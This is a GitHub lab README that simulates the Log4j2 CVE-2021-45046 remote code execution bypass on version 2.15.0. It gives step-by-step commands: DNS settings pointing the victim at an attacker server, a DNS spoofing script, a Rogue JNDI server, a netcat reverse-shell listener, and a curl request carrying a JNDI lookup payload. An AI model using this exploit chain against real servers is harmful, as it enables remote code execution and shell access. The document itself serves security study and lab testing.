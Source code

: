 # CVE-2021-45046 Simulation

* Apache Log4j2 Thread Context Lookup Pattern vulnerable to remote code execution in certain non-default configurations
* Log4j2 version <=2.15.0

## Set Up Lab Environment

* [Victim Server](../victim/README.md)
* [Attacker Server - Rogue JNDI](../attacker/README.md)

## Update Java JNDI DNS Service (Java 7-8)

In your victim's server (Tomcat), update the `JAVA_OPTS` of the JVM to add the following [JNDI DNS service provider settings](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E):

* `sun.net.spi.nameservice.provider.<n>=<default|dns,sun|...>`: Specifies the name service provider that you can use. By default, Java will use the system configured name lookup mechanism, such as file, nis, etc. You can specify your own by setting this option. <n> takes the value of a positive number, it indicates the precedence order with a small number takes higher precendence over a bigger number. Aside from the default provider, the JDK includes a DNS provider named `dns,sun`.
* `sun.net.spi.nameservice.nameservers=<server1_ipaddr,server2_ipaddr ...>`: You can specify a comma separated list of IP addresses that point to the DNS servers you want to use. If the sun.net.spi.nameservice.nameservers property is not defined, then the provider will use any name servers already configured in the platform DNS configuration.

You can add the `JNDI DNS service provider settings` pointing to the DNS server you want to use. In my case, I set it to point to an Azure VM that I was using as the `attacker` machine with IP address `192.168.2.6`.

### Java Code

You can set the settings in your Java application before the main function. In my lab environment, I use Tomcat to host my vulnerable applications.

```
System.setProperty("sun.net.spi.nameservice.nameservers", "192.168.2.6");
System.setProperty("sun.net.spi.nameservice.provider.1", "dns,sun");
```

### Tomcat Service

If your Java application is hosted by services such as Tomcat, then you need to update the `JAVA_OPTS` environment variable defined in the service file `/etc/systemd/system/tomcat.service`:

```bash
nano /etc/systemd/system/tomcat.service
```

Your service file might have a `JAVA_OPTS` entry like the one below:

```
Environment='JAVA_OPTS=-Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Djava.net.preferIPv4Stack=true -Djava.net.preferIPv4Addresses=true -Djava.awt.headless=true'
```

Add the `JNDI DNS service provider settings` pointing to the DNS server you want to use:

```bash
Environment='JAVA_OPTS=-Dsun.net.spi.nameservice.provider.1=dns,sun -Dsun.net.spi.nameservice.nameservers=192.168.2.6 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Djava.net.preferIPv4Stack=true -Djava.net.preferIPv4Addresses=true -Djava.awt.headless=true'
```

Reload services:

```bash
systemctl daemon-reload
```

## Set up Fake DNS Resolver:

I repurposed a [basic python script](https://jasonmurray.org/posts/2020/scapydns/) to handle our Java application DNS request with our weird domain name with the  `#` character in it (e.g. `127.0.0.1#attackerbox/a`). The python script uses [scapy](https://scapy.net/) to sniff DNS traffic hitting my `attacker` vm and spoof the DNS responses.

script: [dnsSpoof.py](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker/dns-server/dnsSpoof.py)

All we need to do is run the script on the `attacker` vm and wait for DNS request coming from our victim machine hosting the vulnerable Java application with Log4j version 2.15.

```bash
python3 dnsSpoof.py --iface eth0 --srcip 192.168.2.5 --srchost ubuntu5 --dstip 192.168.2.6 --dsthosts '#ubuntu6'
```

## Initialize Rogue JNDI

The IP address of my attacker VM is `192.168.2.6`. Therefore, I start `Rogue JNDI` with the following command:

```bash
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```

## Start Netcat Listener

In the same attacker server, start a netcat listener to process the reverse shell:

```bash
nc -lvnp 443
```

## Trigger JNDI Lookup -> Bypass JNDI allowedLdapHost

On my victim vm, I run the following `curl` command to trigger the bypass:

### Deserialized Payload

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://127.0.0.1#ubuntu6:1389/o=tomcat}' 127.0.0.1:8080/Log4j-2.15.0-SNAPSHOT/api
```

## References

* https://securitylab.github.com/advisories/GHSL-2021-1054_GHSL-2021-1055_log4j2/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046
* https://www.lunasec.io/docs/blog/log4j-zero-day-severity-of-cve-2021-45046-increased/
* https://twitter.com/marcioalm/status/1471740771581652995
* https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E
* https://slackhacker.com/2010/07/21/how-to-set-a-custom-dns-server-with-java-system-properties/